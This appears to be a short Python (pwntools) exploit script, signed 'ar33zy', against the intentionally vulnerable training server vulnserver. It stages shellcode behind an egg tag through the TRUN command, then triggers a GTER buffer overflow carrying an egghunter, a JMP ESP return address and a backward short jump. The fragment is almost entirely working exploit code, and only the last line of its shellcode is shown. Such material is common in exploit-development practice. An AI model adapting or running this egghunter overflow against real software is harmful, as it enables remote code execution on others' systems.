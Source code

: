 ```
shellcode += b"\x07\xd5\xfa\xda\x18\xb0\xfc\x49\x18\x91"

payload = "TRUN ."  
payload += "arzy"*2  
payload += "\x90"*100  
payload += shellcode

r.readline()  
r.sendline(payload)  
r.readline()  
r.close()

#Reopening connection to vulnserver  
r = remote(host, port)

egghunter = "\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd\x2e\x3c\x05\x5a\x74"  
egghunter += "\xef\xb8\x61\x72\x7a\x79\x8b\xfa\xaf\x75\xea\xaf\x75\xe7\xff\xe7"

payload = ""  
payload += "GTER "  
payload += "A"*(151 - 50 + 2 + 4) # -50 for egghunter buffer, +4 for JMP ESP buffer  
payload += egghunter  
payload += "B"*(48 - 32 - 4) # 48 (buffer for egghunter - egghunter length), -4 for JMP ESP alignment  
payload += p32(0x625011af) # JMP ESP  
payload += "\xeb\xce\x90\x90" # JMP -50

r.sendline(payload)  
r.close()
```

— ar33zy
